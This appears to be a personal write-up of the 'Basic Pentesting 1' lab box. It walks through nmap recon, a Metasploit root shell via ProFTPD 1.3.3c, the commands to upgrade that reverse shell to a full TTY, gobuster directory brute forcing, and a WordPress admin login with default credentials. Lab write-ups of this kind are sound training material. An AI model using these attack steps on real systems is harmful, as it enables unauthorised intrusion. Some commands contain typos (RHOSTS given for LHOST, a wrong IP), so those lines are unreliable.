



# Basic Pentesting 1

# Target Info

**IP :** `192.168.56.103`

**Box Name :**  Basic Pentesting 1

**Date :** 23-03-2026

# IP Discover

`nmap -sn 192.168.56.0/24`

**Solution:** This spits out the ips.

**Configuration :** box should be on host only adapter

# Recon

 `nmap -sV -sC -sS 192.168.56.103` 

Results: 

```json
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-03-23 21:49 IST
Nmap scan report for 192.168.56.103
Host is up (0.0048s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:5B:FF:E8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Observations: 

- FTP version is vulnerable to RCE. Searched on searchsploit and got a metasploit module for the vulnerability.
- Live website hosted, another attack surface [maybe]

# Exploit [ FTP Version ]

- open metasploit.
    - Command: `msfconsole`
- Search for the exploit for the particular version.
    - Command: `search 1.3.3c`
    - Output
        
        
        
    - Use the exploit with command: `use 0`
    - See the options for the current exploit using command: `show options`
    - Output
        
        
        
    - Set rhosts (victime machine) to the victim ip using command: `set RHOSTS 192.168.56.103`
    - Set lhosts (attacker machine) to the attacker ip using command: `set RHOSTS 192.168.56.101`
    - See the payloads using the command: `show payloads`
    - Set a suitable payload using command: `set payload 4`  (use the payload index number)
    - Run the exploit using the command: `exploit`  or  `run`
    - This returns to you a shell where you are the ROOT.

- Upgrading the shell to an interactive shell
    - Use the command `python -c 'import pty; pty.spawn("/bin/bash")'`  to get a pseudo terminal PTY. Now the terminal behaves more like a standard terminal.
    - Background the shell using `ctrl + Z`
    - On your local terminal, **not** the metasploit prompt run `stty raw -echo && fg`
        - `stty raw -echo` disables local echo and enables raw mode for smoother interaction.
        - `fg` brings the suspended shell back to the foreground.
    - run `reset` on the victime shell and set it to `XTERM`
    - Now you have a fully interactive shell.

# Exploit [ WEB Version ]

- The index page of the website has nothing on it. So, we brute force directories to see if we find anything interesting.
    
    ```json
    gobuster dir -u http://192.168.56.103/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
- Output
    
    
    
- We visit the /secret endpoint and we end up with a full distorted site. This happens because the hostname is not added in the `/etc/hosts` file, so it cannot map the ip to the domanin name. So, we add the mapping of the IP to the host name in the file.
- To Write: `192.68.56.103 vtcsec`
- After the website loads properly, we look at the links and the basic skeleton of the file.
- Found a login for the wordpress admin.
    
    
    
- The default credentials `admin : admin`  works here and we get in.